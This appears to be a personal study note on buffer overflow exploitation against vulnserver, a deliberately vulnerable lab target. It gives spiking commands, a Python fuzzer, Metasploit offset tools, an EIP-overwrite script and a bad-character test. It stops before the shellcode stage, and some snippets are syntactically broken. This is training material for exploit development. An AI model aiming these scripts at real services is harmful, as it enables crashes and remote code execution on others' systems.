

# BufferOverFlow

## Spiking

```
nc -nv <windows ip> <port where vulnserver is running>
```

Type Help for available commands

<figure><figcaption></figcaption></figure>

```
gedit stats.spk
```

paste this code init

```
s_readline();
s_string("STATS ");
s_string_variable("0");
```

```
generic_send_tcp <ip> <port> stats.spk 0 0
```

We see that its not vulnerable as it runs completely&#x20;

Lets try another command TRUN

```
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```
generic_send_tcp <ip> <port> trun.spk 0 0
```

In Immunity debuuger we see that the machine cracks and analysing the data we see that the buffer overflowed to EIP

## Fuzzing

Python Script

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
buffer = "A" * 100
 
while True:
    try:
        payload = "TRUN /.:/" + buffer
 
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        print ("[+] Sending the payload...\n" + str(len(buffer)))
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    except:
        print ("The fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

When the server crashes ctrl+c to stop the script and we see see that in 2700bytes it crashes

We round it off to 3000

Now lets find the EIP value

## Finding The Offset

```
usr/share/metasploit-framework//tools/exploit/pattern_create.rb -l 3000
```

Its print an series of charecters Copy it

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
offset = "<The charecters output from above"
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + offset)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

Run it and when it crashes Got to immunity debugger and COPY the EIP value

```
usr/share/metasploit-framework//tools/exploit/pattern_offset.rb -l 3000 -q <our eip value>
```

Then We get an offset match

## Overwriting EIP

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
 
shellcode = "A" * <THE OFFSET MATCH NUMBER> + "B" * 4
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + shellcode)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

iF THE eip is 42424242 means that all B came into that and now we control those 4 bytes of EIP.

## Finding Bad Char


Bad Char Generator


OR JUST COPY THIS&#x20;

```
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

```
#!/usr/bin/python
 
import sys, socket
from time import sleep
badchars=("
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
")
shellcode = "A" * <THE OFFSET MATCH NUMBER> + "B" * 4 + badchars
 
try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.1.35',9999))
        s.send('TRUN /.:/' + shellcode)
        s.close()
except:
        print ("Error connectiong")
        sys.exit()
```

Run it and it break the victim machine

Then right click the ESP and press FOLLOW in DUMP

Then follow through all the charecters and if there are any bad charecters then it doesnt print over there.

Example-

```
01 02 03 B0 05
```

We see 04 is missing meaning thats a bad charecter

Its not important to get it as B0 it can be something else just find something out of space


fINDING THE COORECT MODULE AND GAINING SHELL ACCESS

"""""THE VIDEO IS SAVED IN MY DESKTOP"""'""
